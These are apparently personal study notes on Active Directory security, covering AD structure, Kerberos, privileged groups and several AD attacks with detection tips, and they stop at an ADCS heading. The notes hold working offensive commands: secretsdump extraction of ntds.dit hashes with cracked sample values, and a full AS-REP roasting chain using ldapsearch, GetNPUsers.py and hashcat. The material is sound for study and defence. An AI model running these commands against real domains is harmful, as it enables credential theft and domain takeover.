## Definition

Active Directory (AD) is Microsoft's directory service for managing identities and resources within a Windows domain. Think of it as an organization's central directory of users, computers, groups, and other objects, combined with the mechanisms used to manage and authenticate them.




Entra ID & On-Prem Active Directory : 

| Aspect | Entra ID | On-Prem Active Directory | Why On-Prem AD? |
|---|---|---|---|
| **Identity Scope** | Designed for cloud apps (SaaS, Azure resources, M365) | Designed for enterprise LANs, servers, legacy apps | Many internal apps (ERP, HR, core banking) still require Kerberos/NTLM from on-prem AD |
| **Resource Access** | Great for modern cloud workloads | Critical for file servers, SQL, Exchange, printers, VMware, etc. | A bank's core transaction systems run on-prem, tied to AD for authentication |
| **Compliance & Data Residency** | Cloud storage may raise regulatory issues | Full local control of identities and data | Banks, defense, and government agencies must keep sensitive data local by regulation |
| **Network Dependencies** | Internet connectivity is mandatory | Works offline in LAN environments | Manufacturing plants or oil rigs use AD for local auth when internet is down |
| **Hybrid Architecture** | Entra ID Connect syncs identities to the cloud | Remains the authoritative source for many enterprises | Common model: use Entra ID for SSO to SaaS, but on-prem AD for domain-joined resources |

> **Bottom line:** On-prem AD is not being "replaced" but rather extended with Entra ID, and remains a critical part of core networks.





# `ntds.dit` Analysis + Hash Types

## What the File Is
`ntds.dit` is the **Active Directory database** — an ESE binary database (8 KB pages, `datatable` / `link_table` / `sd_table`). Not text, which is why `cat` showed gibberish.

## Sample Used
**Didier Stevens' practice sample** — real `ntds.dit` + matching `SYSTEM` hive from a Windows Server 2003 VM (~40 test users).

## Commands Used

**Parsed the database (credential view):**
```bash
python3 /usr/bin/secretsdump.py -ntds ~/ntds/ntds.dit -system ~/ntds/SYSTEM LOCAL
```

**Raw table export (full inspection):**
```bash
esedbexport ~/ntds/ntds.dit
```

## Why `-system` Was Mandatory



The PEK (`pekList`) is stored **inside** `ntds.dit` but encrypted with a key derived from the **boot key**, which lives only in the `SYSTEM` hive (`HKLM\SYSTEM\CurrentControlSet\Control\Lsa` → `JD`/`Skew1`/`GBG`/`Data`).

No `SYSTEM` hive = PEK stays locked = no usable hashes. The `PEK # 0 found and decrypted` line confirms this chain worked.

## What Was Dumped

Format: `username:RID:LM_hash:NT_hash:::`

**18 accounts:** `Administrator` (500), `Guest` (501, empty password), `SUPPORT_388945a0` (1001), `ADDEMO$` (1003, computer account), `krbtgt` (502), `user01`–`user13` (1106–1118).

**Findings:**
- `user01` LM `44efce164ab921ca` + NT `32ed87bdb5fdc5e9cba88547376818d4` = password **`123456`**
- Empty constants: LM `aad3b435b51404eeaad3b435b51404ee` / NT `31d6cfe0d16ae931b73c59d7e0c089c0` = no password (Guest)
- LM second half `aad3b435b51404ee` = password ≤ 7 chars
- LM present at all because it's a Server 2003-era domain (LM off by default since Vista/2008)

## The Hash Types

### Stored hashes — what you dumped

| Type | Algorithm | Crack command |
|---|---|---|
| **LM** | uppercase → pad to 14 → two 7-char DES chunks → encrypt `KGS!@#$%` | `hashcat -m 3000` / `john --format=lm` |
| **NTHash** (aka "NTLM") | `MD4(UTF-16-LE(password))` | `hashcat -m 1000` / `john --format=nt` |

- **NTHash** is what you use for **pass-the-hash** — no cracking needed.
- Dumps show `LM:NT` before the colon — LM first, NT second.

### Challenge/response — NOT in `ntds.dit`, captured off the wire (Responder)

| Type | Notes | Crack command |
|---|---|---|
| **NTLMv1** | Uses NT/LM hash in DES challenge-response; deprecated | `hashcat -m 5500` / `john --format=netntlm` |
| **NTLMv2** | HMAC-MD5 challenge-response; default since Win2000; harder | `hashcat -m 5600` / `john --format=netntlmv2` |

### How the hash types relate



**Key distinction:** LM/NT hashes are *stored* (from SAM/NTDS). NTLMv1/v2 are *protocol responses* (from the network). Both v1/v2 derive from the NTHash, so a cracked response = cracked password — but you can't pass-the-hash with a response.

## Bottom Line
`ntds.dit` + `SYSTEM` hive → `secretsdump` → per-account **LM and NT hashes**. NT hashes → pass-the-hash or `hashcat -m 1000`. LM hashes → `hashcat -m 3000` (instant on weak passwords). `krbtgt` (RID 502) is the golden-ticket target.


# Active Directory Attacks — Tools, Methods, Examples

## 1. Schema Abuse

**Target:** The AD schema, which defines object classes and attributes.

**Tools:** AD Schema MMC snap-in, ADSI Edit, PowerShell, Mimikatz (DCShadow technique).

**How it works:**
1. Attacker obtains permissions to modify the schema, or (for DCShadow) sufficient privileges to manipulate directory replication.
2. They modify schema definitions or submit unauthorized directory changes.
3. Changes may affect directory objects across the forest, depending on the technique.

**Example:** An attacker with schema-write privileges creates a custom attribute called `internalNote`, associates it with user objects, and attempts to use it to store covert data.

**Impact:** Unauthorized directory changes or covert data storage. A custom attribute does not automatically expose credentials — permissions still apply.

**Detection:** Monitor schema changes, membership changes to Schema Admins, and unexpected directory replication activity.

---

## 2. Global Catalog (GC) Reconnaissance

**Target:** Directory information — users, groups, computers, and selected attributes.

**Tools:** BloodHound/SharpHound, AdFind, `ldapsearch`, PowerShell AD module.

**How it works:**
1. Attacker obtains an ordinary domain account.
2. Queries the Global Catalog over LDAP.
3. Collects directory objects and relationships.
4. Analyzes results to identify privileged users, service accounts, and attack paths.

**Example:** An attacker discovers `svc-backup` is a service account and that a particular group contains domain admins — useful for prioritizing further investigation.

**Impact:** Better reconnaissance for subsequent attacks. Enumeration alone grants no additional privileges.

**Detection:** Monitor unusual LDAP query volume, broad enumeration, and suspicious use of directory-collection tools.

---

## 3. Global Catalog Denial-of-Service (DoS)

**Target:** GC availability and the directory searches depending on it.

**Tools:** Custom LDAP scripts/clients, traffic-generation or load-testing tools (controlled environments).

**How it works:**
1. Attacker identifies a reachable GC server.
2. Generates excessive requests or resource-intensive directory searches.
3. Server resources become strained.
4. Legitimate searches slow down or fail.

**Example:** An organization relies on one GC at a remote site. Excessive LDAP requests overwhelm that server, preventing apps from completing directory searches promptly.

**Impact:** Service disruption — does not automatically stop all domain authentication.

**Detection:** Monitor LDAP latency, CPU usage, connection counts, and unusual request volume.

---

## 4. `NTDS.dit` Theft and Offline Credential Extraction

**Target:** The AD database and its protected credential material.

**Tools:** `ntdsutil.exe`, Volume Shadow Copy Service (VSS), Impacket `secretsdump.py`, DSInternals.

**How it works:**
1. Attacker gains sufficient privileges on a domain controller, or obtains access to a sensitive backup.
2. Acquires a usable copy of `NTDS.dit`.
3. Obtains the associated `SYSTEM` hive containing relevant key material.
4. Uses specialized tools to extract credential data offline.

**Example:** An attacker compromises a DC's administrative account, obtains copies of the database and system hive, and extracts password hashes belonging to privileged users.

**Impact:** Potential exposure of credentials across the domain. Hashes may be cracked offline or abused in certain authentication attacks — not automatically plaintext.

**Detection:** Investigate suspicious database access, VSS activity, database-copy operations, and unexpected execution of credential-extraction tools.

---

## 5. DCSync

**Target:** Credential material obtained through AD's replication mechanism.

**Tools:** Mimikatz (`lsadump::dcsync`), Impacket `secretsdump.py`.

**How it works:**
1. Attacker compromises an identity with sufficient directory replication permissions.
2. Uses a tool to request replication data from a domain controller.
3. The DC returns information the identity is authorized to replicate.
4. Attacker obtains credential material without copying `NTDS.dit` from the file system.

**Example:** A compromised account has improperly delegated replication rights. Attacker abuses those rights to request the `krbtgt` account's hash — potentially enabling a Golden Ticket attack.

**Impact:** Potentially severe credential compromise and further domain takeover.

**Detection:** Monitor replication requests from unexpected hosts/identities; audit sensitive replication permissions, including `Replicating Directory Changes` and `Replicating Directory Changes All`.

---

## Quick Comparison

| Attack | Main Target | Typical Prerequisite |
|---|---|---|
| Schema abuse | Directory structure | Schema-write privileges or other high privileges, depending on technique |
| GC reconnaissance | Directory information | Often an ordinary domain account |
| GC DoS | Service availability | Reachability and ability to generate disruptive load |
| `NTDS.dit` theft | Database credential material | Sufficient access to the DC or a sensitive backup |
| DCSync | Replicated credential material | Sufficient directory replication permissions |

**Key distinction:** GC reconnaissance *discovers* information, schema abuse *changes* directory definitions or data, DoS *disrupts* availability, and `NTDS.dit` theft / DCSync *target* credential material.

## Attack Relationship Overview



*Schema abuse and GC DoS aren't shown above since they're independent paths (directory tampering and availability disruption) rather than steps toward credential theft.*


# Active Directory — GPOs, Objects & Forests

## 1. Group Policy Object (GPO)

A GPO is a collection of settings used to centrally configure users and computers in an AD environment.

### What Can It Control?

- Password and account policies
- Windows Firewall and security settings
- User restrictions and auditing
- Local group membership, including local administrator membership
- Startup/logon scripts and scheduled tasks

### Where Does It Apply?

GPOs can be linked to:
- **Sites**
- **Domains**
- **Organizational Units (OUs)**

> A GPO does **not** automatically apply to every computer in the forest. Its scope depends on its links, security filtering, and other policy-processing rules.



### How Attackers Abuse GPOs

**Prerequisite:** The attacker needs sufficient permissions to modify a GPO that applies to the target computers.

**Potential abuses:**

| Abuse | What it looks like |
|---|---|
| **Privilege escalation** | Add an unauthorized account to local Administrators groups |
| **Code execution** | Configure malicious scripts or scheduled tasks |
| **Persistence** | Make unauthorized configurations recur through policy application |
| **Defense evasion** | Weaken security controls or logging |

**Example:** An attacker compromises an account that can edit a GPO linked to the employees' workstation OU. They modify the GPO to grant an unauthorized account local administrator privileges on affected workstations.

**Tools to know:** Group Policy Management Console (`gpmc.msc`), PowerShell GroupPolicy module, SharpGPOAbuse, and BloodHound for identifying risky permissions.

**MITRE ATT&CK:** T1484.001 — Group Policy Modification.

---

## 2. AD Objects

Objects are the fundamental directory entities stored in Active Directory.

| Object               | Represents                                   |
| -------------------- | -------------------------------------------- |
| **Users**            | User accounts                                |
| **Groups**           | Organize accounts for permission assignment  |
| **Computers**        | Domain-joined machines                       |
| **Printers**         | Network printing resources                   |
| **Service accounts** | Identities used by applications and services |

Each object has attributes describing it. For example, a user object can contain a username, display name, and group memberships.

---

## 3. AD Forest vs. Domain

| Term | Definition |
|---|---|
| **Forest** | The top-level logical AD structure, containing one or more domains that share a common schema, configuration, and Global Catalog |
| **Domain** | A logical directory partition containing objects such as users, computers, and groups. Serviced by one or more domain controllers (DCs) |
| **Domain Controller (DC)** | A server running AD DS that authenticates domain identities, stores directory data, and participates in replication |

### Example Hierarchy



> A forest can contain just one domain and one DC, or multiple domains and many DCs.

### Remember

- **Forest** = overall logical structure
- **Domain** = directory partition and administrative boundary
- **DC** = server that provides directory services
- **OU** = container for organizing objects and applying GPOs
- **GPO** = configuration settings applied to targeted users and computers


# Authentication in Active Directory

## Core Concepts

- **Kerberos**: the primary authentication protocol in AD. Ticket-based — proves identity without sending the password over the network each time.
- **Client**: the user/machine requesting access to a resource.
- **KDC (Key Distribution Center)**: runs on the Domain Controller. Issues tickets (TGT and TGS). Has two parts: the **AS** (Authentication Service) and the **TGS** (Ticket Granting Service).
- **Service**: the resource the client wants to access (file share, database, web app, etc.), identified by an SPN (Service Principal Name).
- **NTLM**: older authentication protocol, challenge/response-based. Still used as a fallback when Kerberos isn't available (e.g., accessing by IP instead of hostname).

## Kerberos Authentication Workflow

![[Pasted image 20261025231915.png]]
**In short:** prove who you are once to the KDC (get a TGT) → use the TGT to request a ticket for a specific service (get a TGS) → present the TGS to the service, which trusts it was issued by the KDC.

## Reading `klist` Output

`klist` shows the Kerberos tickets currently cached in memory for the logged-on session.

**Ticket #0 — the TGT:**
- `Client: tel_engineer01 @ TELECORE.AD` → who the ticket belongs to.
- `Server: krbtgt/TELECORE.AD @ TELECORE.AD` → the server field says `krbtgt`, which means this *is* the TGT (the "service" being the KDC's own ticket-granting service).
- `Ticket Flags 0x40e10000` → includes `forwardable`, `renewable`, `initial`, `pre_authent` — a normal initial ticket obtained with Kerberos pre-authentication.
- `Session Key Type: AES-256` → modern encryption, not the weaker RC4/DES.
- `Kdc Called: DC01` → which DC issued it.

**Ticket #1 — a TGS:**
- `Server: LDAP/DC01.telecore.ad/telecore.ad @ TELECORE.AD` → this ticket is for the **LDAP service** on `DC01` — meaning the user (or something running as the user) queried AD via LDAP.
- `Ticket Flags 0x40a50000` → includes `ok_as_delegate`, meaning this ticket is allowed to be forwarded on the user's behalf to another service — worth noting from a security standpoint, since it enables delegation.

**Why this matters:** `klist` is one of the simplest ways to see what a compromised or current session has already authenticated to — the presence of a TGS for a specific service shows that access happened, and ticket flags like `ok_as_delegate` or `forwardable` flag potential delegation abuse paths.

## Reference: Active Directory Exploitation Cheat Sheet

Repo: [S1ckB0y1337/Active-Directory-Exploitation-Cheat-Sheet](https://github.com/S1ckB0y1337/Active-Directory-Exploitation-Cheat-Sheet)

Its core **Tools** list (used throughout the cheat sheet for enumeration and attacks):

| Tool | What it does |
|---|---|
| [PowerSploit](https://github.com/PowerShellMafia/PowerSploit/tree/dev) | PowerShell post-exploitation framework; includes **PowerView** for AD enumeration and **PowerUp** for local priv-esc |
| [PowerUpSQL](https://github.com/NetSPI/PowerUpSQL) | Enumerates and attacks MSSQL servers in a domain, including linked-server abuse |
| [Powermad](https://github.com/Kevin-Robertson/Powermad) | Creates rogue machine accounts and abuses MS-NRPC features (used in RBCD attacks) |
| [Impacket](https://github.com/SecureAuthCorp/impacket) | Python library/toolkit for low-level network protocols (SMB, Kerberos, LDAP); includes `secretsdump.py`, `GetUserSPNs.py`, `GetNPUsers.py` |
| [Mimikatz](https://github.com/gentilkiwi/mimikatz) | Dumps credentials from memory (LSASS), performs pass-the-hash, pass-the-ticket, Golden/Silver Ticket, DCSync, and more |
| [Rubeus](https://github.com/GhostPack/Rubeus) | C# Kerberos abuse toolkit — Kerberoasting, ASREPRoasting, ticket requests, S4U delegation abuse, pass-the-ticket |
| [BloodHound](https://github.com/BloodHoundAD/BloodHound) | Graphs AD relationships/permissions to find attack paths to Domain Admin; data collected via **SharpHound** |
| [AD Module](https://github.com/samratashok/ADModule) | Portable version of the official PowerShell Active Directory module, usable without RSAT installed |
| [ASREPRoast](https://github.com/HarmJ0y/ASREPRoast) | Dedicated tool for ASREPRoasting accounts that don't require Kerberos pre-authentication |
| [Adalanche](https://github.com/lkarlslund/adalanche) | Collects and visually analyzes AD permissions/attack paths, similar in purpose to BloodHound |

**Main attack categories covered in the repo** (not exhaustive — just the map): Domain Enumeration → Local Privilege Escalation → Lateral Movement → Domain Privilege Escalation (Kerberoasting, ASREPRoasting, delegation abuse, ACL abuse, etc.) → Domain Persistence (Golden/Silver Ticket, DCSync, Skeleton Key) → Cross-Forest Attacks.


# AS-REP Roasting via Anonymous LDAP — Full Chain

## The Misconfiguration

Kerberos pre-authentication normally requires the client to prove they know the password before the KDC issues a TGT. If an account has the `DONT_REQ_PREAUTH` flag set, the KDC skips that check and hands out an AS-REP to anyone who asks — no credentials required. Part of that AS-REP is encrypted with the account's password hash, which can then be cracked offline.

## Attack Chain



## Commands

### Step 1 — Check if Anonymous LDAP Binding Is Allowed

```bash
ldapsearch -x -H ldap://10.10.10.5 -s base -b "" "(objectClass=*)" namingContexts
```
Attempts an unauthenticated bind against the RootDSE — if it returns `namingContexts` (the domain's base DN) instead of a credentials error, anonymous bind is allowed.

### Step 2 — Enumerate Usernames via Anonymous LDAP

```bash
ldapsearch -x -H ldap://10.10.10.5 -b "DC=corp,DC=local" "(&(objectClass=user)(objectCategory=person))" sAMAccountName | grep "sAMAccountName:" | awk '{print $2}' > users.txt
```
Queries the base DN (from Step 1) for all person-type user objects and writes their `sAMAccountName` values, one per line, into `users.txt`.

### Step 3 — Test Each Username for AS-REP Roastability

```bash
python3 GetNPUsers.py corp.local/ -usersfile users.txt -dc-ip 10.10.10.5 -format hashcat -outputfile asrep_hashes.txt
```
Sends an AS-REQ for every username in the list with no credentials — only accounts with Kerberos pre-authentication disabled respond with a crackable AS-REP, saved to `asrep_hashes.txt`.

### Step 4 — Crack the Captured Hashes

```bash
hashcat -m 18200 asrep_hashes.txt rockyou.txt
```
Mode `18200` is hashcat's dedicated mode for AS-REP (RC4/etype 23) hashes, the default format `GetNPUsers.py` outputs — cracks the hash against the wordlist to recover the plaintext password.

## Notes

- None of these steps require valid domain credentials — the entire chain runs from an unauthenticated foothold, as long as anonymous LDAP bind is enabled.
- If Step 1 fails (anonymous bind disabled), the chain breaks there — low-priv valid creds or an OSINT-derived username list would be needed to reach Step 3 instead.
- If a captured hash starts with `$krb5asrep$18$` instead of `$krb5asrep$23$`, the account uses AES encryption — switch hashcat mode to `19600` (AES128) or `19700` (AES256).


# AD Privileged Groups — Attacker's Perspective

**Core question for every group:** What does compromising it let an attacker control, and what do they target next?

## Quick Reference Table

| Group | Grants | Next Target |
|---|---|---|
| **Enterprise Admins (EA)** | Forest-wide admin control across *all* domains | Other domains, trusts, forest-wide persistence |
| **Domain Admins (DA)** | Full control of *one* domain + local admin on domain-joined computers by default | Domain controllers, privileged creds, GPOs |
| **Built-in Administrators** | Depends which one — domain's built-in group = DC/directory control; a workstation's local group = just that machine | Privileged memberships, sensitive permissions |
| **Schema Admins (SA)** | Can modify the forest-wide schema (if enabled) — **not** Domain Admin rights | Schema abuse, unauthorized attribute/object changes |
| **Group Policy Creator Owners** | Can create/edit GPOs (including ones they own) — **not** automatically link them anywhere | Check if their GPOs can be linked to valuable OUs |

## Scope Hierarchy



SA and GPC are drawn separately because they're **narrow, special-purpose privileges** — not steps on the ladder toward full domain/forest control. Name alone doesn't tell you their real power.

## The 3 Exam-Critical Distinctions (memorize these)

1. **Enterprise Admins vs. Domain Admins** → forest-wide vs. single-domain control.
2. **Schema Admins vs. Domain Admins** → structure/schema authority vs. broad administrative authority.
3. **Creating a GPO vs. applying a GPO** → permission to make/edit a policy ≠ permission to link it anywhere.

## Memory Hooks

- **EA** = "owns the forest" → cares about *other domains and trusts*.
- **DA** = "owns the domain" → cares about *DCs and credentials*.
- **Built-in Administrators** = "depends which door you're standing at" → always check *which* Administrators group.
- **SA** = "owns the blueprint, not the building" → schema ≠ access.
- **GPC** = "writes the policy, doesn't post it on the wall" → create ≠ link.

## Why It Matters

After compromising any high-privilege identity, the attacker's real goal is usually **more credentials + persistence + control of identity infrastructure** — which is why Microsoft's [AD DS tier model](https://learn.microsoft.com/en-us/windows-server/identity/ad-ds/tier-model) treats domain controllers and the identities that control them as the highest-trust tier.

**Reference:** [Privileged Accounts and Groups in Active Directory — Microsoft Learn](https://learn.microsoft.com/en-us/windows-server/identity/ad-ds/plan/security-best-practices/appendix-b--privileged-accounts-and-groups-in-active-directory)


# Active Directory Certificate Services (ADCS)

## What It Is

**PKI (Public Key Infrastructure):** validates and manages digital certificates.

**Issues:** SSL/TLS certs, smartcard certs, authentication certs.

**Integration:** tightly integrated with AD for auto-enrollment — domain-joined machines and users can request certs automatically via Group Policy.

## Certificate Issuance Flow

